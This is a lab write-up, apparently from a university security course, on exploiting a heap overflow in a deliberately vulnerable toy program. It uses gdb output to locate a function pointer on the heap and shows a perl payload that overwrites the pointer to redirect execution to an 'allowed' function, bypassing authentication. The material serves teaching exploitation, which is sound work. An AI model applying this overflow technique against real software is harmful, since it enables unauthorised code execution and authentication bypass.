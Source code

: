# Heap-Based Overflow - Function pointers

## Exercices

### Finding vulnerable code

The following line `strcpy(d->passwd, argv[1]);`is vulnerable to a heap-overflow if the length of the input is not checked first which is the case here.

We can try the program with a long input and see if we can get a segmentation fault.

```console
kali@kali:~/$ ./exploit_func password
data is at 0x804d1a0, fp is at 0x804d1f0
Auth : failed
kali@kali:~/$ ./exploit_func $(perl -e 'print "A"x120')
data is at 0x804d1a0, fp is at 0x804d1f0
Segmentation fault
```

### Locate the heap in memory

Using gdb we can disassemble the main function to see where the two buffers are allocated.
```console
(gdb) disass main
Dump of assembler code for function main:
   0x080491e8 <+0>:	lea    ecx,[esp+0x4]
   0x080491ec <+4>:	and    esp,0xfffffff0
   0x080491ef <+7>:	push   DWORD PTR [ecx-0x4]
   0x080491f2 <+10>:	push   ebp
   0x080491f3 <+11>:	mov    ebp,esp
   0x080491f5 <+13>:	push   esi
   0x080491f6 <+14>:	push   ebx
   0x080491f7 <+15>:	push   ecx
   0x080491f8 <+16>:	sub    esp,0x1c
   0x080491fb <+19>:	call   0x80490d0 <__x86.get_pc_thunk.bx>
   0x08049200 <+24>:	add    ebx,0x2e00
   0x08049206 <+30>:	mov    esi,ecx
   0x08049208 <+32>:	sub    esp,0xc
   0x0804920b <+35>:	push   0x40
   0x0804920d <+37>:	call   0x8049050 <malloc@plt>
   0x08049212 <+42>:	add    esp,0x10
   0x08049215 <+45>:	mov    DWORD PTR [ebp-0x1c],eax
   0x08049218 <+48>:	sub    esp,0xc
   0x0804921b <+51>:	push   0x4
   0x0804921d <+53>:	call   0x8049050 <malloc@plt>
   0x08049222 <+58>:	add    esp,0x10
   0x08049225 <+61>:	mov    DWORD PTR [ebp-0x20],eax
   0x08049228 <+64>:	mov    eax,DWORD PTR [ebp-0x20]
   0x0804922b <+67>:	lea    edx,[ebx-0x2e43]
   0x08049231 <+73>:	mov    DWORD PTR [eax],edx
   0x08049233 <+75>:	sub    esp,0x4
   0x08049236 <+78>:	push   DWORD PTR [ebp-0x20]
   0x08049239 <+81>:	push   DWORD PTR [ebp-0x1c]
   0x0804923c <+84>:	lea    eax,[ebx-0x1fdb]
   0x08049242 <+90>:	push   eax
   0x08049243 <+91>:	call   0x8049030 <printf@plt>
   0x08049248 <+96>:	add    esp,0x10
   0x0804924b <+99>:	mov    eax,DWORD PTR [esi+0x4]
   0x0804924e <+102>:	add    eax,0x4
   0x08049251 <+105>:	mov    edx,DWORD PTR [eax]
   0x08049253 <+107>:	mov    eax,DWORD PTR [ebp-0x1c]
   0x08049256 <+110>:	sub    esp,0x8
   0x08049259 <+113>:	push   edx
   0x0804925a <+114>:	push   eax
   0x0804925b <+115>:	call   0x8049040 <strcpy@plt>
   0x08049260 <+120>:	add    esp,0x10
   0x08049263 <+123>:	mov    eax,DWORD PTR [ebp-0x20]
   0x08049266 <+126>:	mov    eax,DWORD PTR [eax]
   0x08049268 <+128>:	call   eax
   0x0804926a <+130>:	mov    eax,0x0
   0x0804926f <+135>:	lea    esp,[ebp-0xc]
   0x08049272 <+138>:	pop    ecx
   0x08049273 <+139>:	pop    ebx
   0x08049274 <+140>:	pop    esi
   0x08049275 <+141>:	pop    ebp
   0x08049276 <+142>:	lea    esp,[ecx-0x4]
   0x08049279 <+145>:	ret    
End of assembler dump.
(gdb)
```
We find two calls to the malloc function (line 37, 53), each have argument pushed before the call (line 35, 51). We can see how much memory are allocated for each buffer by looking at the argument.

For the first one it is `0x40 = 64` and for the second one `0x4 = 4`. (The second data structure consists of a pointer which on a 32-bit system is 32 bits or 4 bytes)


To locate the heap in memory we can set a breakpoint in the main function somewhere after the two mallocs. Address `0x0804925b` is suitable for example.
We can now run the program and take a look at the registers and process informations.
```console
(gdb) b *0x0804925b
Breakpoint 1 at 0x0804925b: file exploit_func.c, line 40.
(gdb) info proc map
process 2265
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x804b000     0x3000        0x0 /home/kali/Documents/Security/LINGI2144-2020-2021/heap-exploit/function_pointer/exploit_func
	 0x804b000  0x804c000     0x1000     0x2000 /home/kali/Documents/Security/LINGI2144-2020-2021/heap-exploit/function_pointer/exploit_func
	 0x804c000  0x804d000     0x1000     0x3000 /home/kali/Documents/Security/LINGI2144-2020-2021/heap-exploit/function_pointer/exploit_func
	 0x804d000  0x806f000    0x22000        0x0 [heap]
	0xb7dd7000 0xb7fb5000   0x1de000        0x0 /usr/lib/i386-linux-gnu/libc-2.30.so
	0xb7fb5000 0xb7fb7000     0x2000   0x1dd000 /usr/lib/i386-linux-gnu/libc-2.30.so
	0xb7fb7000 0xb7fb9000     0x2000   0x1df000 /usr/lib/i386-linux-gnu/libc-2.30.so
	0xb7fb9000 0xb7fbb000     0x2000        0x0 
	0xb7fd0000 0xb7fd2000     0x2000        0x0 
	0xb7fd2000 0xb7fd5000     0x3000        0x0 [vvar]
	0xb7fd5000 0xb7fd6000     0x1000        0x0 [vdso]
	0xb7fd6000 0xb7ffe000    0x28000        0x0 /usr/lib/i386-linux-gnu/ld-2.30.so
	0xb7ffe000 0xb7fff000     0x1000    0x27000 /usr/lib/i386-linux-gnu/ld-2.30.so
	0xb7fff000 0xb8000000     0x1000    0x28000 /usr/lib/i386-linux-gnu/ld-2.30.so
	0xbffdf000 0xc0000000    0x21000        0x0 [stack]
```
On the fourth line we can see that the heap is located at the address `0x804d000`

### Locate the two structures
Now that we found the heap location we can display its content and see if we can find the two structures :
```console
gdb-peda$ x/120x 0x804d000
0x804d000:	0x00000000	0x00000000	0x00000000	0x00000191
[...]
0x804d190:	0x00000000	0x00000000	0x00000000	0x00000051
0x804d1a0:	0x41414141	0x00000000	0x00000000	0x00000000
0x804d1b0:	0x00000000	0x00000000	0x00000000	0x00000000
[...]
0x804d1e0:	0x00000000	0x00000000	0x00000000	0x00000011
0x804d1f0:	0x080491bd	0x00000000	0x00000000	0x00000411
0x804d200:	0x61746164	0x20736920	0x30207461	0x34303878
0x804d210:	0x30613164	0x7066202c	0x20736920	0x30207461
0x804d220:	0x34303878	0x30663164	0x0000000a	0x00000000
0x804d230:	0x00000000	0x00000000	0x00000000	0x00000000
```
We can spot our first buffer, our input, located at address `0x804d1a0`and a bit further the second structure at address `0x804d1f0`. 

How do we know where the second strucutre is ?
If we list the denied function we can see the address of its first instruction  :
```console
(gdb) disass denied
Dump of assembler code for function denied:
   0x080491bd <+0>:	push   ebp
   0x080491be <+1>:	mov    ebp,esp
   0x080491c0 <+3>:	push   ebx
   0x080491c1 <+4>:	sub    esp,0x4
   0x080491c4 <+7>:	call   0x804927a <__x86.get_pc_thunk.ax>
   0x080491c9 <+12>:	add    eax,0x2e37
   0x080491ce <+17>:	sub    esp,0xc
   0x080491d1 <+20>:	lea    edx,[eax-0x1fe9]
   0x080491d7 <+26>:	push   edx
   0x080491d8 <+27>:	mov    ebx,eax
   0x080491da <+29>:	call   0x8049060 <puts@plt>
   0x080491df <+34>:	add    esp,0x10
   0x080491e2 <+37>:	nop
   0x080491e3 <+38>:	mov    ebx,DWORD PTR [ebp-0x4]
   0x080491e6 <+41>:	leave  
   0x080491e7 <+42>:	ret    
End of assembler dump.
```
We find the address `0x080491bd` which is the one appearing on the heap at address `0x804d1f0`.

We can now easily find the offset between the two structures :
```console
(gdb) p/d 0x804d1f0 - 0x804d1a0
$1 = 80
```
The offset is 80 because we have a buffer of 64 bytes and 16 bytes of padding. 
To ensure that it is the correct offset we can run the program in GDB with an offset of 80 and 4 additionnal recognizable bytes. (ABCD, BBBB, ...)
```console
(gdb) run $(perl -e 'print "A"x80 . "BCDE"')
Stopped reason: SIGSEGV
0x45444342 in ?? ()
```

We can see the offset is correct by looking at the address that caused the segmentation fault.

### Crashing the program
Just like the `denied` function we can find the address of the `allowed function` by disassembling it.
```console
(gdb) disass allowed
Dump of assembler code for function allowed:
   0x08049192 <+0>:	push   ebp
   0x08049193 <+1>:	mov    ebp,esp
   0x08049195 <+3>:	push   ebx
   0x08049196 <+4>:	sub    esp,0x4
   0x08049199 <+7>:	call   0x804927a <__x86.get_pc_thunk.ax>
   0x0804919e <+12>:	add    eax,0x2e62
   0x080491a3 <+17>:	sub    esp,0xc
   0x080491a6 <+20>:	lea    edx,[eax-0x1ff8]
   0x080491ac <+26>:	push   edx
   0x080491ad <+27>:	mov    ebx,eax
   0x080491af <+29>:	call   0x8049060 <puts@plt>
   0x080491b4 <+34>:	add    esp,0x10
   0x080491b7 <+37>:	nop
   0x080491b8 <+38>:	mov    ebx,DWORD PTR [ebp-0x4]
   0x080491bb <+41>:	leave  
   0x080491bc <+42>:	ret    
End of assembler dump.
```
Here the address is  `0x08049192`.

To execute the `allowed` function we just need to replace the 4 bytes after the offset by the address of the `allowed` function. (In little endian)
```console
kali@kali:~/$ ./exploit_func $(perl -e 'print "A"x80 . "\x92\x91\x04\x08"')
data is at 0x804d1a0, fp is at 0x804d1f0
Auth : success
```
